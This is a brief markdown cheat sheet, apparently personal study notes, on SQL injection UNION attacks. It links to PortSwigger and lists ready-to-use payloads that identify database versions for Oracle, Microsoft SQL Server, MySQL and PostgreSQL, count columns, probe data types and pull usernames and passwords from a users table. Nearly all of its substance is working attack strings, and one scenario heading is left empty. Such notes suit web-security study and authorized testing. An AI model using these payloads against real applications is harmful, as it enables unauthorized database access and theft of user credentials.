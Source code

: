 Useful cheatsheet from Port Swigger: https://portswigger.net/web-security/sql-injection/cheat-sheet
## Union Attack:
**Version Identify Attack:** this is very important because you will know later what sytnax to use for you SQL Injection payloads:
```
' UNION SELECT NULL, banner FROM v$version--  --Oracle
' UNION SELECT NULL, @@version--              --Microsoft
' UNION SELECT NULL, @@version--              --MySql
' UNION SELECT NULL, user()--                 --MySql
' UNION SELECT NULL, version()--              --PostgreSQL
```
**Step 1:** identify how `many colmuns` are returned otherwise you will get an internal error:
```
' UNION SELECT NULL, NULL--
```
**Step 2:** identify what `data type` is in each column ex: integer or string:
```
' UNION SELECT NULL, 'abcd', NULL--  #Note: if integer instead of 'abcd' just any number with no quoteslike 2
```
**Scenario A:** you already checked in Step 1 you have 2 columns so you can do the action and `retrieve data` from other tables:
```
' UNION SELECT username, password FROM users--
```
**Scenario B:** you already checked in Step 1 you have 2 columns BUT .. its not working .. you may have to `retrieve multiple values in a single column`: 
```
' UNION SELECT NULL, CONCAT(username,password) FROM users--
```
**Scenario C:**

### Oracle
to get the `version` (you may need also to make sure you have the correct number of columns)
```
' UNION SELECT BANNER, NULL FROM v$version--
```
